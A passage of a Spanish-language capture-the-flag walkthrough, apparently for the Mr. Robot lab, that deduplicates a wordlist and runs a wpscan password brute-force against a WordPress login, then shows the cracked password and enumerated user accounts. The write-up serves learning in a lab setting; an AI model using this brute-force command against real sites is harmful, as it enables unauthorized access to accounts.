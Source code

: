 ### nuestro diccionario tiene 858160 palabras de las cuales muchas estan repetidas asi que vamos a memorar eso

```css 
	sort fsociety.dic | uniq > fsociety.dic_nuevo
	
```

### este comando nos ordena todo el diccionario alfabeticamente y tambien elimina las palabras repetidas y finalmente lo guarda en un nuevo archivo llamado: fsociety.dic_nuevo.

si hacemos nuevamente
```c
wc fsociety.dic_nuevo -l 
```
podemos ver que ahora nuestro nuevo diccionario tiene: 11451. esto esta mucho mejor asi que intentemos el ataque con el nuevo diccionario para ver si va mas rapido.

### Bueno, parece que a BurpSuite le cuesta hacer el ataque asi que investigando conseguimos una nueva herramienta (wpscan) que nos permite hacer ataques a paginas wordpress

```css
	wpscan -U Elliot -P fsociety.dic_nuevo --url http://IP/wp-login --multicall-max-passwords
```

![[Pasted image 20240612144941.png]]

### despues de casi 10 minutos tenemos los resultados.

### la contraseña para el usuario Elliot es:
```css
	ER28-0652
```

![[Pasted image 20240612144947.png]]

### ahora vamos a ingresar a la pagina web.

![[Pasted image 20240612144952.png]]

### vamos a navegar por la pagina y a enumerar toda la informacion que sea posible.

### en la pestaña de usuarios podemos encontrar dos usuarios:
```cs
Username: elliot
name: elliot Alderson
E-mail: elliot@mrrobot.com
role: administrator
-------------------------------------------------------------
Username: mich05654
name: krista Gordon
E-mail: kgordon@therapis.com
role: subscriber
```
